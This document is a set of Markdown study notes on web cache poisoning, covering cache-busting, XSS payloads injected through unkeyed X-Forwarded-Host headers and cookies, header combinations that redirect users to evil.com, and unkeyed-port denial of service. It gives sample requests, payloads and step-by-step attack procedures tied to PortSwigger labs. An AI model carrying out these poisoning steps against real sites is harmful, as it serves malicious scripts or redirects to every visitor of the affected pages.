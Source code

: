 ## **Detecting Cached Responses**

Add a cache buster parameter ```?cb=1``` in the request. Change the number in the parameter before new request, so that we don't get a cached response. 
<br>
<br>
To confirm caching behavior, inspect response headers and time differences:

- **`X-Cache: hit`** – Response served from the cache.  
- **`X-Cache: miss`** – Response fetched from the origin server and potentially cached.  
- **`X-Cache: refresh`** – Cache was outdated and revalidated.

Additionally, check `Cache-Control` headers for caching directives like `public` with a non-zero `max-age`.

---

# Exploiting cache design flaws

Websites are vulnerable to web cache poisoning if they handle unkeyed input in an unsafe way and allow the subsequent HTTP responses to be cached.

## Using web cache poisoning to deliver an XSS attack

Consider the following request and response:

```txt
GET /en?region=uk HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: innocent-website.co.uk

HTTP/1.1 200 OK
Cache-Control: public
<meta property="og:image" content="https://innocent-website.co.uk/cms/social.png" />
```

Here, the value of the X-Forwarded-Host header is being used to dynamically generate an Open Graph image URL, which is then reflected in the response. In this example, the cache can potentially be poisoned with a response containing a simple XSS payload:

```txt
GET /en?region=uk HTTP/1.1
Host: innocent-website.com
X-Forwarded-Host: a."><script>alert(1)</script>"

HTTP/1.1 200 OK
Cache-Control: public
<meta property="og:image" content="https://a."><script>alert(1)</script>"/cms/social.png" />
```

If this response was cached, all users who accessed /en?region=uk would be served this XSS payload.

## Web cache poisoning with an unkeyed header

Some websites use unkeyed headers to dynamically generate URLs for importing resources, such as externally hosted JavaScript files. In this case, if an attacker changes the value of the appropriate header to a domain that they control, they could potentially manipulate the URL to point to their own malicious JavaScript file instead. We can use ```X-Forwarded-Host:``` header for this.

**Step**
```
  1. Add a cache buster parameter ?cb=1 in the request.
  2. Add X-forwarded-Host header in request.
  3. Add a arbitrary domain (example.com) and send the request.
  4. If the example.com reflected in response page, we can now place our malicious link in it.
```
The malicius link contain with js file will trigger on all users browser if the site is vulnerable to the Web Cache Poisoning.
<br>
<br>
**Note:** Remove cache buster before delivering final attack.
## Web cache poisoning with an unkeyed cookie

Cookies are often used to dynamically generate content in a response. If the response of the request is cached, then all subsequent users who tried to access the poisoned page will get the malicious content. 

**Step**
```
  1. Add a cache buster parameter ?cb=1 in the request.
  2. Identify if any cookie value reflecting in the response.
  3. If the cookie value reflected in response page, we can now place our malicious javascript code in it or arbitrary string in it.
```
**Note:** If the cookie header generated in http response, we should add the header in http request and sent a new request.<br>
<br>
Use this payload if the value reflected in a javascript string
```js
someString"-alert(1)-"someString
```
## Web cache poisoning with multiple headers

Identify any unkeyed header using param miner and craft a attack.

**Example:** Suppose there is a hidden ```X-Forwarded-Proto: http``` or ```X-Forwarded-Scheme: http```(This two header overrides the https with http) header that we have discovered manually or using param miner. If we add this header in a request, this will make 302 redirect to the main domain. If we add ```X-Forwarded-Host``` header in it and put our malicious domain, the site will redirected to our malicious domain.<br>
***Initial Request***
```txt
GET /random HTTP/1.1
Host: innocent-site.com
X-Forwarded-Proto: http

HTTP/1.1 301 moved permanently
Location: https://innocent-site.com/random
```
***Customized Request***
```txt
GET /random HTTP/1.1
Host: innocent-site.com
X-Forwarded-Proto: http
X-Forwarded-Host: evil.com

HTTP/1.1 301 moved permanently
Location: https://evil.com
```
Poc: [Web cache poisoning with multiple headers](https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-with-multiple-headers)

## Exploiting responses that expose too much information

### Targeted web cache poisoning using an unknown header

```Vary``` header is used for sending device or client specific content. Using ```Vary``` header in responce, in some cases we can craft an attack.
<br>
<br>
Poc: [Targeted web cache poisoning using an unknown header](https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-targeted-using-an-unknown-header)

---

## Exploiting cache key implementation flaws

## Exploiting unkeyed port

Let's say that our hypothetical cache oracle is the target website's home page. This automatically redirects users to a region-specific page. It uses the Host header to dynamically generate the Location header in the response:

```
GET / HTTP/1.1
Host: vulnerable-website.com

HTTP/1.1 302 Moved Permanently
Location: https://vulnerable-website.com/en
Cache-Status: miss
```

To test whether the port is excluded from the cache key, we first need to request an ```arbitrary port``` and make sure that we receive a fresh response from the server that reflects this input:
```
GET / HTTP/1.1
Host: vulnerable-website.com:1337

HTTP/1.1 302 Moved Permanently
Location: https://vulnerable-website.com:1337/en
Cache-Status: miss
```
Next, we'll send another request, but this time we won't specify a port:

```
GET / HTTP/1.1
Host: vulnerable-website.com

HTTP/1.1 302 Moved Permanently
Location: https://vulnerable-website.com:1337/en
Cache-Status: hit
```
As you can see, we have been served our cached response even though the Host header in the request does not specify a port. This might enable you to construct a denial-of-service attack by simply adding an arbitrary port to the request. All users who browsed to the home page would be redirected to a dud port, effectively taking down the home page until the cache expired. This kind of attack can be escalated further if the website allows you to specify a non-numeric port. You could use this to inject an XSS payload, for example.
